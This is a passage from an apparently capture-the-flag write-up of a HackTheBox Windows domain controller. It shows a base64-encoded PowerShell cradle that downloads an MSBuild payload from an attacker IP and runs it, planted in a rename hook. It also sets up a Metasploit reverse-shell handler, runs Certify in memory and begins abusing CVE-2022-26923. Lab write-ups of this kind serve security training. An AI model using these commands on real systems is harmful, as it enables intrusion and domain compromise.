 {% include figure image_path="/assets/img/msbuild.png"  %}

Then a PowerShell download cradle was generated (note: IWR is used, as this is allowed in CLM in PowerShell):
{% highlight csharp %}

PSDownloadCrad=$(echo "IWR http://10.10.14.26/shell.xml -UseBasicParsing -o C:\\Users\\Public\\test.xml; C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\MSBuild.exe C:\\Users\\Public\\test.xml" | iconv -f UTF-8 -t UTF-16LE | base64 -w 0)
echo "powershell -enc $PSDownloadCrad"

powershell -enc SQBXAFIAIABoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIANgAvAHMAaABlAGwAbAAuAHgAbQBsACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwAgAC0AbwAgAEMAOgAAAHMAZQByAHMAXABQAHUAYgBsAGkAYwAJAGUAcwB0AC4AeABtAGwAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABNAGkAYwByAG8AcwBvAGYAdAAuAE4ARQBUAFwARgByAGEAbQBlAHcAbwByAGsANgA0AAsANAAuADAALgAzADAAMwAxADkAXABNAFMAQgB1AGkAbABkAC4AZQB4AGUAIABDADoAAABzAGUAcgBzAFwAUAB1AGIAbABpAGMACQBlAHMAdAAuAHgAbQBsAAoA
{% endhighlight %}
{% include figure image_path="/assets/img/createpayload.png"  %}

Then put this into the Command Runner -> BeforeRename setting to cause it to execute when ever a file gets renamed.
{% include figure image_path="/assets/img/beforerename.png" %}
Start a python server listening on port 80:
{% include figure image_path="/assets/img/pythonserver.png"  %}
And start, and run a metasploit payload handler:
{% highlight csharp %}
msfconsole
use exploit/multi/handler
set LHOST tun0
set LPORT 443
set ExitOnSession false
set AutoVerifySession false
exploit -j -z
{% endhighlight %}
{% include figure image_path="/assets/img/msfconsole.png" %}
After this is all setup, then go and attempt to rename a file (clicking the "Rename" button) to trigger the PowerShell payload.
{% include figure image_path="/assets/img/renamefile.png" %}

And catch a shell as daniel.morgan:
{% include figure image_path="/assets/img/caughtshell.png" %}
The user.txt flag is then located in C:\Users\daniel.morgan\Desktop:
{% include figure image_path="/assets/img/user.png"  %}
Flag: HTB{Abu51ng_F34tur3s_4r3_fun}  <br/>
### Priv Esc
Assuming that this is a domain controller, and the hints towards this using certificates, we can assume that this environment is configured with AD Certificate Services (AD CS) enabled. From this shell, we can run the tool Certify by SpectreOps located <a href="https://github.com/GhostPack/Certify">here </a> to check for vulnerable templates and gain information regarding the CA used. Certify.exe is run in memory from the meterpreter shell by running:
{% highlight csharp %}
run post/windows/manage/execute_dotnet_assembly DOTNET_EXE=/opt/Certify.exe ARGUMENTS="find /vulnerable"  PROCESS=dpapimig.exe
{% endhighlight %}
{% include figure image_path="/assets/img/certify.png" %}
Whilst Certify didn't find any ADCS templates we can abuse, it did tell us the name of the Enterprise CA (certification-CFN-SVRDC01-CA).
CVE (CVE-2022–26923) can then be abused. This CVE allows domain compromise by obtaining the machine account hash for machines within an Active Directory domain. <br/><br/>
This is done by having a machine account with the dnshostname property on the machine set to an arbitrary machine host name within the domain, then requesting a certificate using this dnshostname and abusing PKinit to obtain the NTLM hash for the machine.
Firstly, we need to add a new computer account by using Powermad.ps1 (https://github.com/Kevin-Robertson/Powermad). However when running PowerShell we find that AMSI is enabled:
{% include figure image_path="/assets/img/amsi.png" %}